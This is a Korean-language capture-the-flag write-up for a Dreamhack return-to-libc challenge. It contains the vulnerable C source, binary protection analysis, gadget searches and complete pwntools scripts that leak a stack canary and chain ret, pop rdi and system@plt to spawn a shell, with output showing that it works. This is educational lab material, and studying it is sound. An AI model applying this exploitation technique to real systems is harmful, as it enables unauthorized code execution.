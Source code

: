 # 문제 코드
```c
// Name: rtl.c
// Compile: gcc -o rtl rtl.c -fno-PIE -no-pie

#include <stdio.h>
#include <unistd.h>

const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
  system("echo 'system@plt");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}

```

# 분석

```sh
┌──(foo1㉿main-server)-[~/Desktop/Dreamhack/Return-to-Library]
└─$ checksec ./rtl
[*] '/home/foo1/Desktop/Dreamhack/Return-to-Library/rtl'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
 
┌──(foo1㉿main-server)-[~/Desktop/Dreamhack/Return-to-Library]
└─$ file ./rtl
./rtl: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=b9c3abd745cccbfbd94ffea0231133838853c9ae, not stripped
```

1. 64비트 아키택처임 
2. dynamic link로 되어 있음
3. 리틀엔디안
4. canary 있음
5. ASLR 활성화
6. NX 활성화 - 스택, 힙 등에서 코드 실행 불가하므로 RTL, ROP 관련일 확률이 높음
7. PIE 비활성화 - binsh 문자열 주소 고정(0x400000)
8. Partial RELRO - PLT, GOT의 주소가 고정임

1단계에서 BOF를 이용해 canary leak 하고, 2단계에서 RTL하면 됨

이 문제에선 libc_base를 구하지 않고도 풀 수 있게 만들기 위해서 의도적으로 `system`을 사용했음
다음에 `system`의 PLT를 사용해 `system`을 사용할 수 있게 됨

한편, `system`함수를 사용하기 위해선, pop rdi; ret 가젯이 필요하므로 찾아보면, 아래와 같음
```sh
┌──(foo1㉿main-server)-[~/Desktop/kknock/Pwnable/rop]
└─$ ROPgadget --binary rop --re "pop rdi"
Gadgets information
============================================================
0x0000000000400853 : pop rdi ; ret

Unique gadgets found: 1
```

마지막으로, Partial RELRO가 적용되어 있으므로 PLT, GOT가 고정된 주소를 가짐
이를 pwntools의 `e.plt['system'`]에 접근하여 찾을 수 있음
마찬가지로 `e.search(b'/bin/sh)'`를 통해서 /bin/sh의 주소를 찾을 수도 있음
```sh
pwndbg> search /bin/sh
Searching for value: '/bin/sh'
rtl             0x400874 0x68732f6e69622f /* '/bin/sh' */
rtl             0x600874 0x68732f6e69622f /* '/bin/sh' */
libc.so.6       0x7ffff7dd8698 0x68732f6e69622f /* '/bin/sh' */
```

```python
from pwn import *

e=ELF('./rtl')
p=process('./rtl')
#p=remote('host3.dreamhack.games',23600)
context.log_level='debug'

binsh=next(e.search(b'/bin/sh'))

print(hex(binsh))
```

```sh
┌──(foo1㉿main-server)-[~/Desktop/Dreamhack/Return-to-Library]
└─$ python3 exploit.py 
[*] '/home/foo1/Desktop/Dreamhack/Return-to-Library/rtl'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './rtl': pid 94533
0x400874
```

위의 정보들을 종합하여 코드를 작성해 보면, 아래와 같은 결과를 얻을 수 있음
```python
from pwn import *

e=ELF('./rtl')
p=process('./rtl')
#p=remote('host3.dreamhack.games',23600)
context.log_level='debug'

pop_rdi_ret=0x0000000000400853
system_plt=e.plt['system']
binsh=next(e.search(b'/bin/sh'))
payload=b''
cnry=b'\x00'
buf_size=0x38

print(hex(binsh))

payload+=b'a'*(buf_size+1)
p.sendafter(b'Buf: ',payload)

p.recvuntil(payload)
cnry+=p.recv(7)

payload=b''
payload+=b'a'*buf_size
payload+=cnry
payload+=b'b'*0x8

payload+=p64(pop_rdi_ret)
payload+=p64(binsh)
payload+=p64(system_plt)

p.sendafter(b'Buf: ',payload)

p.interactive()
```

```sh
┌──(foo1㉿main-server)-[~/Desktop/Dreamhack/Return-to-Library]
└─$ python3 exploit.py 
[*] '/home/foo1/Desktop/Dreamhack/Return-to-Library/rtl'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './rtl': pid 94758
0x400874
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ ls
[*] Process './rtl' stopped with exit code -11 (SIGSEGV) (pid 94758)
[*] Got EOF while sending in interactive
```

여기서 `[*] Process './rtl' stopped with exit code -11 (SIGSEGV) (pid 94758)` 이 문장은 segfault가 나왔다는 의미인데, Stack Alignment를 안 맞춰져서 그럼
이를 해결하려면, 의미없는 가젯을 넣어줘야 하는데, 이를 위해 사용하는 것이 ret 가젯임
```sh
┌──(foo1㉿main-server)-[~/Desktop/Dreamhack/Return-to-Library]
└─$ ROPgadget --binary rtl --re "ret"
Gadgets information
============================================================
0x0000000000400639 : add ah, dh ; nop dword ptr [rax + rax] ; repz ret
0x000000000040063f : add bl, dh ; ret
...
0x0000000000400285 : ret
...
Unique gadgets found: 42

```


# exploit
```sh
from pwn import *

e=ELF('./rtl')
p=process('./rtl')
#p=remote('host3.dreamhack.games',23600)
#context.log_level='debug'

pop_rdi_ret=0x0000000000400853
ret=0x0000000000400285
system_plt=e.plt['system']
binsh=next(e.search(b'/bin/sh'))
payload=b''
cnry=b'\x00'
buf_size=0x38

payload+=b'a'*(buf_size+1)
p.sendafter(b'Buf: ',payload)

p.recvuntil(payload)
cnry+=p.recv(7)

payload=b''
payload+=b'a'*buf_size
payload+=cnry
payload+=b'b'*0x8

payload+=p64(ret)
payload+=p64(pop_rdi_ret)
payload+=p64(binsh)
payload+=p64(system_plt)

p.sendafter(b'Buf: ',payload)

p.interactive()
```

```sh
┌──(foo1㉿main-server)-[~/Desktop/Dreamhack/Return-to-Library]
└─$ python3 exploit.py 
[*] '/home/foo1/Desktop/Dreamhack/Return-to-Library/rtl'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './rtl': pid 95189
[*] Switching to interactive mode
$ ls
 exploit.py  'Return to Library.zip'   rtl   rtl.c
$  
```
